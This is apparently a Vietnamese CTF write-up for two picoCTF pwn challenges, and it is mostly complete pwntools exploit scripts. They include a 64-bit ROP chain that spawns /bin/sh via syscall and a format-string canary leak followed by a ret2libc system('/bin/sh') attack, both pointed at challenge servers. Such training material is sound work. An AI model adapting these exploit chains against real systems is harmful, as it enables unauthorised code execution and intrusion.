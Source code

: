 # Guessgame 

- [Guessgame1](#guessgame1)
- [Guessgame2](#guessgame2)

## guessgame1

Bài này hay ở chỗ là rand(), luôn cho giá trị giống nhau ở mỗi lần chạy nên là ta có thể dàng tính ra được key bằng cách chạy thử code 

Thêm nữa, bài này nhắc ta nhớ lại cách gọi shell với ROP ở kiến trúc 64-bit

- Cần gadgets để ghi được chuỗi */bin/sh* vào 1 địa chỉ cụ thể
- pop địa chỉ đấy vào rdi, rsi = rdx = 0
- rax = 0x3b
- syscall for 64bit

```python
from pwn import *

binary = context.binary =ELF("./vuln")


if args.REMOTE:
    r = remote("jupiter.challenges.picoctf.org", 26735)
else:
    r = process([binary.path])
    gdb.attach(r, api=True)

payload = b""

'''
0x0000000000400696 : pop rdi ; ret
0x0000000000410ca3 : pop rsi ; ret
0x000000000044cc26 : pop rdx ; ret
0x0000000000436393 : mov qword ptr [rdi], rdx ; ret
0x000000000047ff91 : mov qword ptr [rsi], rax ; ret
0x000000000044cc26 : pop rdx ; ret
0x000000000040137c : syscall
0x0000000000400416 : ret
0x00000000004163f4 : pop rax ; ret
0x0000000000445950 : xor rax, rax ; ret
'''
r.sendline(b"84")
r.recv()

# payload += b"a"*120
# payload += p64(0x0000000000410ca3) #pop rsi
# payload += p64(0x6b7020) #addr
# payload += p64(0x00000000004163f4) #pop rax
# payload += b"/bin/sh\x00"
# payload += p64(0x000000000047ff91) #mov...
# payload += p64(0x000000000044cc26) #pop rdx
# payload += p64(0)
# payload += p64(0x0000000000410ca3) #pop rsi
# payload += p64(0)
# payload += p64(0x00000000004163f4) #pop rax
# payload += p64(0x3b)
# payload += p64(0x0000000000400696) #pop rdi
# payload += p64(0x6b7020) #addr
# payload += p64(0x0000000000400416) #ret
# payload += p64(0x000000000040137c) #syscall

payload += b"a"*120
payload += p64(0x0000000000400696) #pop rdi
payload += p64(0x6b7020) #addr
payload += p64(0x000000000044cc26) #pop rdx
payload += b"/bin/sh\x00"
payload += p64(0x0000000000436393) #mov...
payload += p64(0x000000000044cc26) #pop rdx
payload += p64(0)
payload += p64(0x0000000000410ca3) #pop rsi
payload += p64(0)
payload += p64(0x00000000004163f4) #pop rax
payload += p64(0x3b)
payload += p64(0x0000000000400416) #ret
payload += p64(0x000000000040137c) #syscall

r.sendline(payload)
r.interactive()

```


## guessgame2

Bài này cũng không khó với leak libc, tuy nhiên thì cho ta thêm cái hay là đọc kĩ source code tí để biết là key lúc này được tính base on address of rand funct, chứ không phải rand().

Oke thêm nữa là trên 1 máy thì giá trị addr funct không đổi. Và 1 lý do nữa là k biết sao mà k bf từ -4096 đến 4096 luôn đc mà cứ bị ngắt quãng nhỏ cỡ 300 là dừng, nên phải làm từ từ, may ngay lần 2 đã bf ra được key để bypass vào win.

Từ h thì mỗi thứ so ez, và bài này cũng nhắc mình nhớ 1 vấn đề là call đến puts_plt với tham số puts_got => leak libc

Nó gợi thêm 1 kĩ năng nữa là tìm kiếm libc, thì mình dùng [tool](https://libc.rip/)

yah, we done!!!

```python
from pwn import *

binary = context.binary = ELF("./vuln")
libc = ELF("/usr/lib/i386-linux-gnu/libc.so.6")
win = 0

if not args.REMOTE:
    r = process(binary.path)
    puts_offset =libc.sym['puts'] #0x73260
    sys_offset = libc.symbols['system']#0x48150
    binsh_offset = next(libc.search(b'/bin/sh\x00'))#0x1bd0f5
    win = -2527
else:
    r = remote('jupiter.challenges.picoctf.org', 57529)
    puts_offset =0x67560
    sys_offset = 0x3cf10
    binsh_offset = 0x17b9db
    win = -3727
    
# gdb.attach(r, api = True)
canary = 0
win_addr = 0x0804876e

#for i in range(-4096, 4096):
for i in range(-3727,4096):
    r.sendlineafter(b"guess?\n" , str(i))
    response = r.recvline()
    # log.info(f"{i}: {response}")
    if b"win" in response:
        log.info(f"Win key: {i}")
        win = i 
        break

    
r.sendline(b"%135$p")
r.recv()
canary = int(r.recv().split(b": ")[1].split(b"\n")[0],16)
log.info(f"Canary: {hex(canary)}" )
puts_plt = binary.plt['puts']
puts_got = binary.got['puts'] 
printf_got = binary.got['printf'] 
gets_got = binary.got['gets'] 



payload = b"a"*512 + p32(canary) + b"b"*12 
payload += p32(puts_plt) + p32(win_addr) + p32(puts_got)

r.sendline(str(i))
r.sendline(payload)
r.recvuntil(b"a\n\n")
puts_addr = r.recv(4)
log.info(f"Puts leak addr: {hex(u32(puts_addr))}")


payload = b"a"*512 + p32(canary) + b"b"*12 
payload += p32(puts_plt) + p32(win_addr) + p32(printf_got)
r.sendline(payload)
r.recvuntil(b"a\n\n")
printf_got = r.recv(4)
log.info(f"Printf leak addr: {hex(u32(printf_got))}")


payload = b"a"*512 + p32(canary) + b"b"*12 
payload += p32(puts_plt) + p32(win_addr) + p32(gets_got)
r.sendline(payload)
r.recvuntil(b"a\n\n")
gets_got = r.recv(4)
log.info(f"gets leak addr: {hex(u32(gets_got))}")


libc_addr = u32(puts_addr) - puts_offset
sys_addr = libc_addr + sys_offset
binsh_addr = libc_addr + binsh_offset

log.info(f"Libc addr: {hex(libc_addr)}")
payload = b"a"*512 + p32(canary) + b"b"*12 
payload += p32(sys_addr) + p32(win_addr) + p32(binsh_addr)
r.sendline(payload)


r.interactive()


```